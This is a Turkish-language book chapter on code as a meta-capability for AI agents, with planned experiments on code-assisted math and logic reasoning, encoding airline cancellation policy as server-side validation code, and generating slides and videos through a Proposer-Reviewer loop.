**Pratik Tavsiye.** Ana akım Kodlama Agent'ları iki yol arasında bölünür, her birinin kendi amiral gemisi vardır: Claude Code "old string to new string"i alır—önce güvenilirlik, uygulaması basit, ekstra model gerekmez; Cursor, Apply Model yolunu sınırına kadar itmiştir—daha yüksek düzenleme verimi karşılığında özel bir hızlı-apply modelinin eğitimi ve çıkarımı için ödeme yapar. Kendi Agent'ınızı inşa ediyorsanız, "old string to new string" en güvenli başlangıç noktasıdır; büyük ölçekli düzenlemeler için, "dize başlangıç + bitiş eşleştirme" daha ekonomik bir uzlaşmadır; satır numarası yaklaşımı yalnızca derin IDE entegrasyonuyla (editörün canlı bir satır numarası eşlemesi tuttuğu ve her düzenlemeden sonra modele yeniden sağladığı) güvenilirdir—aksi halde satır numarası kayması bunu batırır.

## Kod: Genel Amaçlı Bir Agent'ın Meta-Yeteneği

Önceki bölüm, mimariden araç uygulamasına ve harness engineering'e kadar güvenilir bir Kodlama Agent'ının nasıl inşa edileceğini gösterdi. Ama kod üretiminin değeri program yazmanın çok ötesine uzanır.

> **Bir "meta-yetenek" nedir?** Sıradan bir yetenek, bir Agent'ın belirli bir şeyi yapabilme yeteneğidir—bir soruyu yanıtlamak, belirli bir API'yi çağırmak, bir metin parçası üretmek. Bir **meta-yetenek**, "başka yetenekler yaratabilen" bir yetenektir: Agent bunu, tüm yetenekleri önceden inşa etmesine gerek kalmadan, bir görevi yerine getirmek için anında yeni araçlar, yeni kısıtlar ve yeni ifade biçimleri yazmak için kullanır. Kod üretimi tam olarak böyle bir meta-yetenektir—kesindir, çalıştırılabilirdir ve birleştirilebilirdir, bu da yeni araçlar (betikler, API çağrı dizileri), yeni kısıtlar (assertion'lar, doğrulama kuralları) ve yeni ifade biçimleri (HTML formları, PPT'ler, video kareleri) üretmesine izin verir.

Bu nedenle, kodun bir Agent sisteminde oynadığı rol "program yazmanın" çok ötesine geçer. Sonraki altı bölüm, bu meta-yeteneğin programlamanın ötesinde uygulandığı altı yönü teker teker gösterir: (1) Düşünme Araçları—titiz reasoning için doğal dil yerine kod kullanmak; (2) İş Kuralı Kısıtları—politikaları sabitlemek ve model halüsinasyonlarından kaçınmak için kod kullanmak; (3) Multimedya Üretimi—PPT'ler/videolar/görselleştirmeler üretmek için kod kullanmak; (4) Sistem Adaptörleri—heterojen API'leri bağlamak için kod kullanmak; (5) Üretici UI—formları ve arayüzleri dinamik olarak üretmek için kod kullanmak; (6) Bootstrapping—yeni Agent'lar yaratmak için kod kullanmak.

Bu altı yön paralel bir liste değildir, "meta-yeteneğin nesnesine" dayanarak içeriden dışarıya organize edilmiştir:

1.  **Düşünmenin Kendisi**—hataya açık doğal dil reasoning'ini kodla değiştirmek (Düşünme Araçları);
2.  **İş Kuralları**—belirsiz politikaları çalıştırılabilir kısıtlara kodlamak (İş Kuralı Kısıtları);
3.  **İçerik Sunumu**—PPT'ler, videolar ve görselleştirme artifact'ları üretmek (Multimedya Üretimi);
4.  **Sistem Arayüzleri**—heterojen API'leri köprülemek, veri formatı evrimine otomatik olarak uyum sağlamak (Sistem Adaptörleri);
5.  **Kullanıcı Arayüzleri**—formları ve etkileşimli arayüzleri dinamik olarak inşa etmek (Üretici UI);
6.  **Agent'ın Kendisi**—yeni Agent'lar yaratmak için kod kullanmak, bir bootstrap oluşturmak (ağırlıkları değiştirmeyen Bölüm 8'deki "kendi kendine evrim"den farklıdır).

Bu ipliği izlemek—içeriden dışarıya, nihayetinde Agent'ın kendisine geri dönerek—kodun meta-yetenek olarak birleşik değerini görmeyi kolaylaştırır. İhtiyaç halinde yeni araçlar yaratmak, bu meta-yeteneğin ileri bir uzantısıdır, Bölüm 8'de genişletilecektir.

### Bir Düşünme Aracı Olarak Kod

LLM'ler doğal dili anlamada ve üretmede olağanüstüdür, ama hassas hesaplamada, sembolik manipülasyonda ve sıkı mantıksal çıkarımda temelden zayıftır. Neden: bir modelin düşünmesi doğası gereği olasılıksal ve yaklaşıktır, matematiksel ve mantıksal problemler ise deterministik, kesin yanıtlar talep eder. Somut bir karşılaştırma bunu netleştirir:

```
Problem: "Bir sınıfta 40 öğrenci var. %60'ı matematik, %45'i fizik alıyor ve %25'i ikisini birden alıyor.
          Kaç öğrenci yalnızca fizik alıyor, matematik almıyor?"

Salt Doğal Dil Reasoning'i (hataya açık):               Kod Reasoning'i (kesin ve doğrulanabilir):
"%60 matematik alıyor = 24 öğrenci,                     math = int(40 * 0.60)    # 24
 %45 fizik alıyor = 18 öğrenci,                          phys = int(40 * 0.45)    # 18
 %25 ikisini birden alıyor = 10 öğrenci,                 both = int(40 * 0.25)    # 10
 Yalnızca fizik = 24 - 10 = 14 öğrenci"                  only_phys = phys - both  # 8
→ Yanlışlıkla matematik sayısından çıkarır, yanıt yanlış → print(only_phys)  # 8 ✓
```

LLM'i problemi anlamaktan ve kodu yazmaktan sorumlu kılın, kod yorumlayıcısını ise hassas hesaplamadan sorumlu kılın—bu iş bölümü her birinin güçlü yanlarını kullanmasına izin verir.

Mathematica'nın yaratıcısı Stephen Wolfram, bu konuda derin bir içgörü sundu. LLM'ler var olmadan önce, hassas matematiksel hesaplama yapabilen sistemler zaten vardı—**Sembolik Hesaplama (Symbolic Computation)** kullanarak çalışıyorlardı, yani ifadeleri yaklaşık sayısal değerler yerine matematiksel semboller kullanarak işliyorlardı. Örneğin, sıradan bir hesap makinesi $\sqrt{2}$'yi 1,414 olarak hesaplardı, ama sembolik bir hesaplama sistemi tam formu $\sqrt{2}$ olarak tutar, yalnızca gerektiğinde bir ondalığa dönüştürürdü. Wolfram'ın yarattığı Wolfram Alpha böyle bir sistemdir: kullanıcılar bir matematik problemi girer ve o kesin bir yanıt döndürür. Ancak, doğal dil anlayışı oldukça kırılgandır ve kapsamı dardır—yalnızca sınırlı bir ifade kümesini tanıyabilen yerleşik bir gramer ayrıştırıcısına dayanır; ifadedeki hafif bir değişiklik ayrıştırmanın başarısız olmasına neden olabilir ve kesinlikle açık alan çok adımlı reasoning'i ele alamaz. LLM'ler bu boşluğu mükemmel biçimde doldurur—çeşitli doğal dil ifadelerini anlamada üstündür ama hassas hesaplamada iyi değildir. Yeni iş birlikçi model şudur: LLM'i kullanıcının doğal dil sorusunu anlamaktan, içindeki matematiksel veya mantıksal yapıyı belirlemekten ve bunu biçimsel bir dile (Mathematica dili veya Python'un SymPy kütüphanesi gibi) çevirmekten sorumlu kılın; ardından hassas sonuçlar elde etmek için yürütme üzere özel bir sembolik hesaplama motoruna veya kısıt çözücüsüne verin.

> **Deney 5-1 ★★: Matematiksel Problem Çözme Yeteneğini İyileştirmek için Kod Üretim Araçlarını Kullanmak**
>
> **Deney Amacı**: Bir Agent'ın matematiksel düşünmesinin bir Code Interpreter tarafından desteklendiğinde doğruluk iyileşmesini doğrulamak.
>
> **Teknik Yaklaşım**: Agent'ı sympy, numpy ve scipy gibi matematiksel kütüphaneler içeren bir Python sandbox'ıyla donatın. Agent bir matematik problemiyle karşılaştığında, onu Python koduna biçimselleştirir: sembolik hesaplama için sympy (kalkülüs, denklem çözme), sayısal optimizasyon için scipy, matris işlemleri için numpy. Üretilen kod, hassas sonuçları döndürmek için sandbox'ta yürütülür.
>
> **Kabul Kriterleri**: AIME tarzı problemleri (Amerikan Davetli Matematik Sınavı'ndan modellenmiş) kullanarak değerlendirin. Salt düşünce zinciri reasoning'i ile kod destekli reasoning'in doğruluğunu karşılaştırın, kod destekli modun önemli ölçüde daha yüksek olmasını gerektirin. Kodun matematiksel kütüphaneleri doğru kullanıp kullanmadığını ve çözüm sürecinin mantıksal olarak net olup olmadığını kontrol edin.
>

> **Deney 5-2 ★★: Mantıksal Reasoning Yeteneğini İyileştirmek için Kod Üretim Araçlarını Kullanmak**
>
> **Deney Amacı**: Agent'ın kısıt çözme kodunun yardımıyla mantıksal reasoning gerçekleştirme yeteneğini değerlendirmek.
>
> **Teknik Yaklaşım**: Agent'ı python-constraint kütüphanesini içeren bir Code Interpreter ile donatın. Agent, mantık bulmacalarını (Şövalyeler ve Serseriler problemleri gibi) biçimsel kısıt tanımlarına çevirir: tüm değişkenleri belirle (her adalının kimliği), kısıtları belirle ("şövalyeler doğruyu söyler" gibi çıkarımlar), kısıtları tanımla ve tüm kısıtları karşılayan bir çözüm aramak için çözücüyü çağır.
>
> **Kabul Kriterleri**: [K&K Bulmaca veri kümesini](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) kullanarak değerlendirin. Kod destekli mod, salt düşünme modundan önemli ölçüde daha yüksek olan %90'ın üzerinde bir çözüm doğruluğu elde etmelidir.
>

Bu deney ayrıca daha genel bir kalıbı ortaya koyar: model ve harness birbirine karşı ödünleşir. Model yeterince güçlü olduğunda, harness daha ince olabilir—model kendi başına doğru reasoning yapar ve bir kod çözücüsünden gelen kazanç daralır. Model daha zayıf olduğunda, harness daha fazlasını yapmalıdır—doğruluğu garanti etmek için kilit mantıksal reasoning'i koda ve kısıt çözücülerine devretmek. Bu yüzden bu deney, karşıtlığı büyütmek için kasıtlı olarak daha zayıf bir model kullanır: zayıf bir modelde, salt düşünme sürekli yanlış hesaplar ve kod yardımı doğruluğu dramatik biçimde yükseltir; yeterince güçlü bir reasoning modelinde, salt düşünme genellikle her bulmacayı çözer ve kod yardımından gelen kazanç sıfıra yakınsar. Harness'in ne kadar kalın olması gerektiği, o zaman, modelinizin yetenek sınırının nerede yattığına bağlıdır—herhangi bir Agent tekniğini değerlendirirken kolayca gözden kaçırılan bir öncül: aynı harness, farklı güçteki modellerle eşleştirildiğinde, zıt sonuçları destekleyebilir.

### İş Kuralları için Bir Kısıt Olarak Kod

Bu bölüm, bu bölümün başındaki Harness Engineering bölümüne doğrudan bir yanıttır. Harness'in temel ilkelerinden biri "Kısıtlar: Kodlanmış, Dokümante Edilmiş Değil"dir—kuralları doğal dil dokümantasyonundan çalıştırılabilir koda dönüştürmek, bunları tavsiye niteliğinde kılavuzlar yerine sistem davranışı üzerinde zorunlu kısıtlar haline getirmek. Kod üretimi, Agent'ın bu dönüşüm sürecini otonom olarak tamamlamasını sağlar.

Yalnızca doğal dilde tanımlanan iş kuralları, iş akışları ve karar mantığı belirsizlikle doludur. "Makul bir iade talebi" nedir? "Acil durum" olarak ne sayılır? Sınırlar doğal dil tanımına direnir—"satın alımdan 7 gün içinde iade edilebilir" net görünür, ama bunlar takvim günü mü yoksa iş günü mü? "Satın alım" sipariş verme mi yoksa gönderim mi anlamına gelir? Buna karşılık kod, bilginin belirsizliksiz, çalıştırılabilir bir temsilidir—ya çalışır ya da bir hata fırlatır; ikisi arasında bir şey yoktur.

**Karmaşık İş Kurallarını Hassas Biçimde İfade Etmek.**

**Doğal Dil Kuralları ile Kodlanmış Kurallar: Tamamlayıcı, İkame Edici Değil**

Kuralları system prompt'ta yazmanın avantajı: model kurallara dayanarak kullanıcılara **politikaları açıklayabilir**; kurallara dayanarak **alternatif çözümler bulabilir** (örn. "iptal yerine yeniden rezervasyon"); bir araç çağırmadan önce ön bir fizibilite yargısı verebilir.

Kuralları doğrulama araçları olarak kodlamanın avantajı: kod mantığının **hassasiyeti ve belirsizliksizliği**—hiçbir "yanlış anlama" olmayacaktır; kod yürütmesinin **determinizmi**—aynı girdi her zaman aynı çıktıyı üretir; özellikle **karmaşık kural kombinasyonları** için uygundur—çok koşullu boolean kombinasyonları, zaman hesaplamaları, veri kaynakları arası doğrulama.

Pratikte, birlikte kullanılmalıdırlar: system prompt anlama ve iletişim için doğal dil kuralları içerir, kilit karar noktaları ise uyumu sağlamak için "kapı bekçileri" olarak hareket eden kodlanmış doğrulama araçlarıyla donatılır.

Kodlanmış kuralların gerçek değeri token verimliliği değil, **geri alınamaz hataları önlemektir**—bir siparişi iptal etmek, fon transfer etmek, veri silmek: bir kez yürütüldükten sonra, hiçbiri geri alınamaz. Kodlanmış doğrulama, işlemin önüne son bir savunma hattı koyar ve bu garantinin değeri uygulama maliyetini çok aşar.

**Doğrulamayı ve Yürütmeyi Birleştirmek: Kontrol Listesi Düşünmeyi Yönlendirir, Gerçek Değer Doğrulaması Kapıyı Korur**

Ayrı bir doğrulama aracı inşa etmek yerine, önce yürütme aracının içsel olarak doğrulama yapmasına izin verin. τ-bench'ten (tau-bench, havayolu ve e-ticaret müşteri hizmetleri senaryolarını simüle eden, özellikle bir Agent'ın tool calling ve politika uyumu yeteneklerini değerlendirmek için tasarlanmış bir benchmark) havayolu iptal politikasını örnek alalım:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # İsteğe bağlı: model öz kontrolü için; sunucu doğrulama için veritabanı gerçeğini kullanır
    expected_has_insurance: bool = None  # İsteğe bağlı: model öz kontrolü için; yukarıdakiyle aynı
) -> dict:
    """
    Bir uçuş rezervasyonunu iptal et.

    İptal politikası (sunucu tarafında veritabanı gerçek değerlerine göre zorunlu kılınır):
    - Kural 1: Kullanılmış herhangi bir segmenti olan rezervasyonlar iptal edilemez
    - Kural 2: Rezervasyonlar, ayırtmadan sonraki 24 saat içinde koşulsuz olarak iptal edilebilir
    - Kural 3: Havayolu tarafından iptal edilen uçuşlar her zaman iptal edilebilir
    - Kural 4: Business class her zaman iptal edilebilir
    - Kural 5: Basic economy ve economy'nin iptal edilmesi için seyahat sigortası gerekir

    Çağırmadan önce, lütfen sipariş ayrıntılarını sorgulayın ve yukarıdaki her kuralı teker teker kontrol edin; expected_* parametreleri
    yargı temelinizi belirtmek içindir, sunucu tarafı karşılaştırma ve denetim için sağlanır ve politika kararını etkilemez.
    """
    # Tüm politika gerçekleri veritabanından okunur; model tarafından bildirilen değerlere asla güvenilmez
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Sunucu saati, model tarafından sağlanmaz

    # Modelin öz bildirilen değeri gerçek değerle eşleşmiyorsa bir uyarı kaydet, modelin hatalı inançlarını veya potansiyel enjeksiyonu tespit etmek için
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Kullanılmış segmentlerle iptal edilemez"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "24 saatlik pencere içinde iptal edildi"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Havayolu uçuşu iptal etti"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class iptali"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"Sigortalı {r.cabin_class}"}
        return {"success": False, "reason": f"{r.cabin_class} sigorta gerektirir"}

    return {"success": False, "reason": "İptal politikasını karşılamıyor"}
```

Bu tasarımın değeri iki düzeyde anlaşılmalıdır.

**Birinci düzey: bir düşünme kontrol listesi olarak parametreler.** Araç açıklaması eksiksiz iptal politikasını listeler ve modelin "çağırmadan önce sipariş ayrıntılarını sorgulamasını ve her koşulu teker teker kontrol etmesini" gerektirir; isteğe bağlı `expected_*` parametreleri modeli kendi reasoning'ini açıkça yazmaya daha da teşvik eder. Bu parametreleri doldurmak için, model önce sipariş ayrıntılarını almak üzere sorgu aracını çağırmalı ve her koşulu teker teker doğrulamalıdır — parametreleri doldurma süreci özünde **zorunlu bir kontrol listesidir**. Model, kabin sınıfının economy olduğunu ve sigortanın satın alınmadığını bulduğunda, çağrıyı hazırlarken Kural 5'i fark etmesi olasıdır ve bu yüzden **çağrıyı hiç başlatmaz**, bunun yerine doğrudan kullanıcıya "Sigortasız economy class iptal edilemez. İptal etmeden veya rezervasyonunuzu değiştirmeden önce sigorta satın almayı düşünün" der. Bu düzeyin değeri düşünmeyi yönlendirmede ve geçersiz çağrıları azaltmada yatar; ancak güvenlik sorumluluğu taşımaz — `expected_*` parametreleri yalnızca modelin öz beyanıdır ve sunucu bunları asla gerçek olarak ele almaz.

**İkinci düzey: kapı bekçisi olarak sunucu tarafı gerçek değer doğrulaması.** Koddaki kilit tasarıma dikkat edin: kabin sınıfı, sigorta durumu, ayırtma zamanı, segment kullanımı ve uçuş durumu hepsi sunucu tarafından veritabanından sorgulanır; mevcut zaman sunucu saatinden gelir. **Hiçbir politika gerçeği modelin öz bildirilen parametrelerinden gelmez.** Bu gereksiz bir dikkat değildir: model halüsinasyon görebilir veya prompt injection ile manipüle edilebilir — önceki Ölümcül Üçlü analizinin gösterdiği gibi, aynı context içindeki bir Agent kendi masumiyetini pek kanıtlayamaz. `cabin_class`, `has_insurance` ve hatta `current_time` model tarafından doldurulan parametreler olarak tasarlanmış olsaydı, model tek bir yanlış değer bildirseydi (veya bildirmeye kandırılsaydı) "kapı bekçisi" işe yaramaz hale gelirdi. Son savunma hattı, modelin sahte üretemeyeceği veri üzerine inşa edilmelidir — bu, önceki "kritik işlemler bağımsız doğrulama gerektirir" duruşuyla tutarlıdır: bağımsızlık yalnızca bağımsız bir modeli değil, aynı zamanda bağımsız bir veri kaynağını da ifade eder.

Üç katmanlı güvenlik önlemi böylece tamamlanır: (1) system prompt'taki doğal dil kuralları anlama ve açıklamaya yardımcı olur; (2) araç açıklamaları ve parametre tasarımı bir kontrol listesi görevi görür, modeli çağırmadan önce koşulları açıkça doğrulamaya yönlendirir; (3) veritabanı gerçek değerini kullanan sunucu tarafı kod tabanlı doğrulama nihai kapı bekçisi olarak hareket eder. İlk iki katman hataların oluşumunu azaltır ve üçüncüsü hataların geri alınamaz kayıplara dönüşmemesini sağlar.

> **Deney 5-3 ★★: Küçük modeller kod tabanlı bilgi yoluyla kural yürütme doğruluğunu iyileştirir**
>
> **Deney amacı**: Küçük parametreli modellerin (Qwen3-4B) kod tabanlı iş kuralları yoluyla karmaşık politika yürütmesinin doğruluğunu ve tutarlılığını önemli ölçüde iyileştirdiğini doğrulamak.
>
> **Teknik yaklaşım**: τ-bench havayolu müşteri hizmetleri senaryosuna dayalı kontrollü bir deney tasarlayın. **Kontrol grubu**: Salt doğal dil kuralları, modelin kendi reasoning'ine güvenir. **Deney grubu**: Üç katmanlı güvenlik önlemi — system prompt doğal dil kurallarını korur; araç açıklaması eksiksiz politikayı listeler ve modeli çağırmadan önce her koşulu teker teker kontrol etmeye yönlendirmek için isteğe bağlı `expected_*` parametrelerini kullanır (kontrol listesi); araç dahili olarak simüle edilmiş veritabanı gerçek değerine dayalı kod tabanlı doğrulama yapar (tüm politika gerçekleri veritabanından elde edilir, zaman sunucu saatinden alınır ve modelin öz bildirilen parametrelerine güvenilmez). Değerlendirme metrikleri: görev başarı oranı, politika ihlali sayısı, geçersiz tool call sayısı, kullanıcı deneyimi.
>
> **Beklenen sonuçlar**: Deney grubu kontrol grubunu önemli ölçüde geride bırakır. Daha da önemlisi, modelin parametreleri hazırlarken ihlalleri otonom olarak belirlediği ve doğrudan kullanıcıya alternatifler önerdiği gözlemlenir, "kontrol listesi olarak parametrelerin" etkinliğini doğrular; aynı zamanda, `expected_*` öz bildirilen değerler ile veritabanı gerçek değeri arasındaki tutarsızlıkların oranı sayılır, hatalı bilişi engellemede "sunucu tarafı gerçek değer doğrulamasının" gerekliliğini doğrular.
>
### Kod Güdümlü Multimedya Üretimi

Birçok karmaşık dokümanın oluşturulması özünde yapılandırılmış verinin organizasyonu ve sunumudur. Bir sunum, bir teknik rapor veya etkileşimli bir uygulama olsun, temel yapı kod tarafından tanımlanır — HTML yapıyı tanımlar, CSS stili kontrol eder ve JavaScript etkileşimliliği uygular. Geleneksel doküman oluşturma, GUI arayüzleri aracılığıyla WYSIWYG düzenlemeye dayanır, ama bu Agent'lar için ne sezgiseldir ne de verimlidir, çünkü GUI işlemleri görsel anlama ve hassas koordinat konumlandırma gerektirir. Kod üretimi aracılığıyla, Agent'lar görsel konumlandırma zorluğunu atlar ve dokümanlar üzerinde hassas kontrol kazanır — her öğenin konumu, stili ve içeriği açıkça tanımlanır ve programatik olarak değiştirilip optimize edilebilir.

**PPT Üretim Agent'ı.**

PPT oluşturmak meşhur biçimde emek yoğundur. Tipik bir akademik sunum düzinelerce slayta uzanır, her biri dikkatli bir düzen, damıtılmış kilit noktalar ve iyi seçilmiş grafikler talep eder. Ancak PPT oluşturmayı bir kod üretim problemi olarak yeniden çerçevelerseniz, karmaşıklığın çoğu ortadan kalkar. Slidev gibi modern sunum çerçeveleri zarif bir tasarım felsefesi benimser: içeriği Markdown ve HTML'de tanımlayın. Bir slayt oluşturmak birkaç satır öz işaretleme alır ve çerçeve render etmeyi, düzeni ve animasyonu ele alır. Kod üretiminde ustalaşmış bir Agent için, bu ideal bir arazidir.



Ancak kodu üretmek yeterli değildir. **Agent kodu yazdıktan sonra, sonucun gerçekte nasıl render edildiğine dair hiçbir fikri yoktur**: çok kalabalık içerik, taşan metin, yanlış boyutlu görüntüler — bunların hiçbiri slaytlar gerçekten render edilene kadar görünür değildir. Bu yüzden, kod yazma ve kalite incelemesini iki bağımsız Agent'a ayırmak için bir **Proposer-Reviewer** mekanizması (Şekil 5-5'te gösterildiği gibi) gereklidir:

- **Proposer Agent**, Slidev kodu üretmekten, içeriğin mantıksal yapısını anlamaktan ve bunu makul sayfalara ayrıştırmaktan sorumludur.
- **Reviewer Agent**, her sayfayı bir görüntü olarak render etmek için kodu çalıştırır, render sonuçlarını içerik yoğunluğu, okunabilirlik, düzen makullüğü ve görsel estetik gibi boyutlardan analiz etmek için bir Vision LLM (görüntüleri "görebilen" çok modlu büyük bir model) kullanır ve **yapılandırılmış iyileştirme önerileri** üretir — belirsiz bir "iyi görünmüyor" değil, belirli, uygulanabilir rehberlik (örn. "Sayfa 3: çok fazla içerik, bölmeyi düşünün"; "Sayfa 7: kod bloğu yazı tipi çok küçük, 14pt'ye çıkarmayı önerin"), sayfa numarası, sorun türü ve önem derecesi gibi alanlar dahil.

Proposer geri bildirimi alır, niyeti anlar ve kodu değiştirir. Yeni sürüm, kalite standardı karşılayana veya maksimum yineleme sayısına (örn. 5 tur) ulaşılana kadar Reviewer incelemesi için yeniden sunulur, yinelenir. "Kalite standardı karşılıyor" ve "maksimum tur", Loop Engineering'in gerektirdiği tam olarak iki tür açık durdurma koşuludur: birincisi inceleyicinin hedefe ulaşıldığına karar vermesine izin verir; ikincisi döngünün kaçmasını önleyen bir bütçe tavanıdır.

Bu bölümdeki Proposer-Reviewer yinelemeli döngüsü, Bölüm 4'teki **ön onay** uygulamasıyla aynı kökeni paylaşır — ikisi de Proposer-Reviewer paradigmasının örnekleridir: üretim ve inceleme ayrımı, iki model tarafından bağımsız değerlendirme (Loop Engineering terimleriyle, ayrı alt Agent'lar olarak yapıcı ve kontrolör). Fark hedefte ve biçimdedir: Bölüm 4 bunu geri alınamaz işlemlerin güvenlik incelemesi için kullanır, burada inceleyen tek bir işlem için onay veya ret verir; bu bölüm bunu içerik kalitesinin yinelemeli iyileştirilmesi için kullanır — birden fazla tur ve inceleyenin, önerenin göremediği yeni bilgiye (render sonuçları) erişimi vardır. Temel tasarım ilkeleri tutarlıdır (paylaşılan hedef kısıtları, benzer hataların olasılığını azaltmak için farklı model ailelerini kullanmak, geri bildirimin Proposer'ın trajectory'sine eklenen özel bir olay olarak ele alınması). Tek Agent'lı bir döngü yerine ikili Agent iş bölümü kullanmanın **temel avantajı** **context yönetiminde** yatar: Reviewer her seferinde yalnızca en son sürümün render görüntülerini işler, geçmiş sürümlerden etkilenmez; Proposer yalnızca yapılandırılmış metin geri bildirimini biriktirir, daha az token tüketir ve reasoning'i kolaylaştırır. Tek Agent'lı bir çözüm, aynı context'te düzinelerce sayfa için birden fazla tur render görüntüsünü biriktirmesi gerekirdi, hızla context sınırını aşardı. Bu mekanizma, video düzenleme ve log görselleştirme üzerine sonraki deneylerde yeniden kullanılacak; Bölüm 10, Proposer-Reviewer paradigmasının ötesinde diğer multi-agent iş birliği modlarını daha ileri düzeyde keşfedecek.

> **Deney 5-4 ★★: Makalelerden otomatik PPT üretimi**
>
> **Deney amacı**: Akademik makalelerden yüksek kaliteli sunumlar otomatik olarak üretmek, Proposer-Reviewer mekanizmasının içerik oluşturma kalite kontrolündeki etkinliğini doğrulamak.
>
> **Teknik yaklaşım**: Slidev çerçevesini kullanın. Proposer Agent makale PDF'ini okur, bölüm yapısını, temel argümanları ve şekilleri çıkarır, PPT yapısını planlar ve sayfa sayfa Slidev kodu üretir. **Kilit adım**: Reviewer Agent her sayfanın ekran görüntülerini render eder, render efektini kontrol etmek için bir Vision LLM kullanır, metin taşması, içerik kalabalığı ve uygunsuz görüntü boyutları gibi sorunları belirler ve yapılandırılmış iyileştirme önerileri üretir. Etki standardı karşılayana kadar yinelenir.
>
> **Kabul kriterleri**: Makalenin ana katkılarını kapsayan 10-20 slayt üretin. Eşlik eden metinle eşleşen en az 3 orijinal şekil ekleyin. Render'da metin taşması yok, makul düzen. Tek Agent'lı öz inceleme ile Proposer-Reviewer iş bölümü arasındaki context tüketimi ve üretim kalitesi farklarını karşılaştırın.
>

> **Deney 5-5 ★★: Makale açıklama videolarının otomatik üretimi**
>
> **Deney amacı**: PPT üretim yeteneklerini genişletmek, açıklama videolarının otomatik üretimini gerçekleştirmek için görsel ve işitsel kanalları birleştirmek.
>
> **Teknik yaklaşım**: Deney 5-4'teki PPT üretim iş akışına dayanarak, Agent eş zamanlı olarak her slayt için konuşmalı açıklama metni üretir (tekrar yerine yönlendirici anlatım), konuşma sentezlemek için TTS'i (metinden konuşmaya) çağırır ve videoyu sentezlemek için PPT ekran görüntülerini ses ile senkronize etmek üzere ffmpeg kullanır.
>
> **Kabul kriterleri**: Video 5-15 dakika uzunluğundadır, her slaytın gösterim süresi konuşma süresiyle hassas biçimde eşleşir ve açıklama içeriği görsel öğelere karşılık gelir.
>
>
> 
>
>

**Video Düzenleme Agent'ı.**

Genel Computer Use aracılığıyla video düzenleme yapmak temel bir engelle karşılaşır: video düzenleme GUI'leri son derece karmaşıktır — zaman çizelgeleri, katmanlar ve efekt panelleriyle yoğundur. Bir Agent bu arayüz öğelerini hassas biçimde bulmak ve fare ile klavye ile düzenlemek zorunda kalırdı ve kesin koordinatlar vermek çok zordur.

Video düzenlemeyi API çağrıları ve kod üretimi olarak yeniden çerçevelemek karmaşıklığı dramatik biçimde azaltır. Birçok profesyonel yazılım aracı (Python betiklerini destekleyen açık kaynak bir 3D oluşturma ve video birleştirme aracı olan Blender gibi; ses/video işleme için komut satırı İsviçre çakısı olan FFmpeg gibi) temel işlevselliği yapılandırılmış, birleştirilebilir biçimde sunan programatik API arayüzleri sağlar. Örneğin, Blender Python API'si, video klipleri için içe aktarma, kırpma, düzenleme, geçiş efektleri ekleme ve ses karıştırma gibi işlemler üzerinde hassas kontrol sağlar, her işlem net bir fonksiyon çağrısına karşılık gelir. Bir Agent için, doğal dil gereksinimlerini API çağrılarına dönüştürmek, bir GUI arayüzünü anlamaktan ve fare tıklamalarını simüle etmekten çok daha kolaydır. PPT üretimine benzer şekilde, video düzenleme de Proposer-Reviewer mekanizmasını benimser — Proposer Agent Blender betikleri üretir, Reviewer Agent anahtar kareleri render eder ve efekti kontrol etmek için bir Vision LLM kullanır, değişiklik için geri bildirim sağlar.

> **Deney 5-6 ★★: API tabanlı akıllı video düzenleme**
>
> **Deney amacı**: Agent'ın Blender Python API kodu üreterek video düzenleme yapma yeteneğini doğrulamak ve görsel geri bildirim tabanlı Proposer-Reviewer mekanizmasının multimedya içerik işlemedeki rolünü değerlendirmek.
>
> **Temel zorluk**: Kullanıcının doğal dil düzenleme gereksinimlerini anlamak ve bunları hassas API çağrısı dizilerine dönüştürmek, çeşitli düzenleme işlemlerini (kırpma, birleştirme, altyazılar, ses parçası karıştırma, görsel efektler) ele almak ve üretilen Python betiğinin doğru yürütülmesini sağlamak. Proposer Agent kodu yazdıktan sonra, video efektine doğrudan karar veremez; Reviewer Agent'ın render etmesine ve anahtar kareleri kontrol etmek için bir Vision LLM kullanmasına güvenmelidir.
>
> **Teknik yaklaşım**: Kullanıcı video materyali sağlar (örn. sörf, yürüyüş, kayak gibi sahneler içeren ham görüntü) ve gereksinimleri doğal dilde tanımlar (örn. "Sörf kısmını çıkar"). Proposer Agent, **iki adımlı bir konumlandırma stratejisiyle** bir video analiz alt Agent'ı kullanır:

> **Adım 1, kaba konumlandırma**: Video yolunu, her 10 saniyede bir ekran görüntüsü aralığını ve hedef soruyu geçirerek alt Agent'ı çağırın. Alt Agent, anahtar kareleri yakalamak için ffmpeg kullanır, tüm ekran görüntülerini soruyla birlikte bir Vision LLM'e girdi olarak verir ve sahne aralığını döndürür (örn. "Sörf 40-110 saniye arasında").
>
> **Adım 2, ince taneli konumlandırma**: Sınır zaman noktalarını hassas biçimde bulmak için alt Agent'ı daha dar bir aralıkla ve her saniyede bir ekran görüntüsü yoğunluğuyla yeniden çağırın.
>
> Video analizini bir alt Agent olarak kapsüllemek, çok sayıda ekran görüntüsünün ana Agent'ın context'ini işgal etmesini önler. Konumlandırmadan sonra, Blender API betiğini üretin. Reviewer Agent hızlı bir önizleme yapar, anahtar kareleri kontrol eder ve tam render'dan önce standart karşılanana kadar yinelenen değişiklik için geri bildirim sağlar.
>
